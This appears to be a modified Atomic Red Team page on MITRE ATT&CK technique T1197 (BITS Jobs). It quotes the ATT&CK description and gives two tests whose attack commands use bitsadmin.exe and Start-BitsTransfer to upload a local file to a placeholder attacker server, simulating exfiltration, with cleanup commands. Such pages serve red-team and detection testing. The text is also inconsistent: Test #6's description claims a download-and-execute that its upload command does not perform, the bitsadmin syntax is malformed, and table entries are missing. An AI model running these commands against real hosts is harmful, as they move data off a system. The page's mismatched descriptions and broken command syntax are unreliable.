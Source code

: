 # T1197A - BITS Jobs
<blockquote>
This page was modified by A-FIRST
</blockquote>
<br/>

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1197)

<blockquote>Adversaries may abuse BITS jobs to persistently execute or clean up after malicious payloads. Windows Background Intelligent Transfer Service (BITS) is a low-bandwidth, asynchronous file transfer mechanism exposed through [Component Object Model](https://attack.mitre.org/techniques/T1559/001) (COM).(Citation: Microsoft COM)(Citation: Microsoft BITS) BITS is commonly used by updaters, messengers, and other applications preferred to operate in the background (using available idle bandwidth) without interrupting other networked applications. File transfer tasks are implemented as BITS jobs, which contain a queue of one or more file operations.

The interface to create and manage BITS jobs is accessible through [PowerShell](https://attack.mitre.org/techniques/T1059/001) and the [BITSAdmin](https://attack.mitre.org/software/S0190) tool.(Citation: Microsoft BITS)(Citation: Microsoft BITSAdmin)

Adversaries may abuse BITS to download, execute, and even clean up after running malicious code. BITS tasks are self-contained in the BITS job database, without new files or registry modifications, and often permitted by host firewalls.(Citation: CTU BITS Malware June 2016)(Citation: Mondok Windows PiggyBack BITS May 2007)(Citation: Symantec BITS May 2007) BITS enabled execution may also enable persistence by creating long-standing jobs (the default maximum lifetime is 90 days and extendable) or invoking an arbitrary program when a job completes or errors (including after system reboots).(Citation: PaloAlto UBoatRAT Nov 2017)(Citation: CTU BITS Malware June 2016)

BITS upload functionalities can also be used to perform [Exfiltration Over Alternative Protocol](https://attack.mitre.org/techniques/T1048).(Citation: CTU BITS Malware June 2016)</blockquote>

## Atomic Tests

- [Atomic Test #5 - Bitsadmin Upload (cmd)](#atomic-test-5---bitsadmin-Upload-cmd)

- [Atomic Test #6 - Bitsadmin Upload (PowerShell)](#atomic-test-6---bitsadmin-Upload-powershell)



<br/>

## Atomic Test #5 - Bitsadmin Upload (cmd)
This test simulates an adversary leveraging bitsadmin.exe to upload

**Supported Platforms:** Windows

<br/>

#### Inputs:
| Name            | Description           | Type   | Default Value                                                  |
| --------------- | --------------------- | ------ | -------------------------------------------------------------- |
| Attacker_Server | Remote file to Upload | url    |
| local_file      | File path for data    | String | PathToAtomicsFolder&#92;T1197&#92;src&#92;a1197.dat            |
| remote_file     | Remote file to Upload | url    | &#92;atomic-re-team&#92;A1197&#92;src&#92;Upload&#92;A1197.dat |


<br/>

#### Attack Commands: Run with `command_prompt`! 


```cmd
bitsadmin.exe /transfer /Upload /priority Foreground #{Attacker_Server}#{remote_file} #{local_file}
```

#### Cleanup Commands:
```cmd
del #{local_file} >nul 2>&1
```





<br/>
<br/>

## Atomic Test #6 - Bitsadmin Upload (PowerShell)
This test simulates an adversary leveraging bitsadmin.exe to download
and execute a payload leveraging PowerShell

Upon execution you will find a github markdown file downloaded to the Temp directory

**Supported Platforms:** Windows

<br/>

#### Inputs:
| Name            | Description           | Type   | Default Value                                                            |
| --------------- | --------------------- | ------ | ------------------------------------------------------------------------ |
| Attacker_Server | Remote file to Upload | url    |
| local_file      | File path for data    | String | PathToAtomicsFolder&#92;T1197&#92;src&#92;a1197.dat                      |
| remote_file     | Remote file to Upload | url    | #{Attacker_Server}&#92;atomic-re-team&#92;A1197&#92;Upload&#92;A1197.dat |

<br/>

#### Attack Commands: Run with `powershell`! 


```powershell
Start-BitsTransfer -Priority foreground -TransferType Upload -Source #{local_file} -Destination #{remote_file} 
```

#### Cleanup Commands:
```powershell
Remove-Item #{local_file} -ErrorAction Ignore
```





<br/>
